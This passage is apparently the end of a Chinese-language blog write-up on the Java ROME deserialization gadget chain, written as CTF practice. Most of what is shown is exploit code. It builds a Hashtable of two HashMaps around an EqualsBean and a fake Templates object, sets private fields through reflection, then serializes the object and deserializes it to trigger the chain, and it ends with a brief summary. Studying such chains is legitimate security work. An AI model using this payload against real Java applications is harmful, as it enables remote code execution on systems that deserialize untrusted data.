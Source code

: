 ```java
        EqualsBean equalsBean = new EqualsBean(HashMap.class, fakehashMap);
//        equalsBean.equals(fakeTemplates);
//        HashSet hashSet = new HashSet();
        Hashtable hashtable = new Hashtable();
        HashMap hashMap1 = new HashMap();
        HashMap hashMap2 = new HashMap();
        hashMap1.put("zZ", fakeTemplates);
        hashMap1.put("yy", equalsBean);
        hashMap2.put("zZ", equalsBean);
        hashMap2.put("yy", fakeTemplates);
        hashtable.put(hashMap2,1);
        hashtable.put(hashMap1,2);
        Field _beanClassField = EqualsBean.class.getDeclaredField("_beanClass");
        _beanClassField.setAccessible(true);
        _beanClassField.set(equalsBean, Templates.class);
        Field _objField = EqualsBean.class.getDeclaredField("_obj");
        _objField.setAccessible(true);
        _objField.set(equalsBean, templatesClass);
        serialize(hashtable);
        unserialize("ser.bin");
    }
    public static void serialize(Object obj) throws Exception
    {
        java.io.FileOutputStream fos = new java.io.FileOutputStream("ser.bin");
        java.io.ObjectOutputStream oos = new java.io.ObjectOutputStream(fos);
        oos.writeObject(obj);
        oos.close();
    }
    public static Object unserialize(String Filename) throws IOException, ClassNotFoundException
    {
        java.io.FileInputStream fis = new java.io.FileInputStream(Filename);
        java.io.ObjectInputStream ois = new java.io.ObjectInputStream(fis);
        Object obj = ois.readObject();
        ois.close();
        return obj;
    }
}
```





## 总结

ROME链其实跟个小训练一样，根据调用链能自己很轻松地写出payload。下个月打华为杯别拖人后腿啊！fighting！

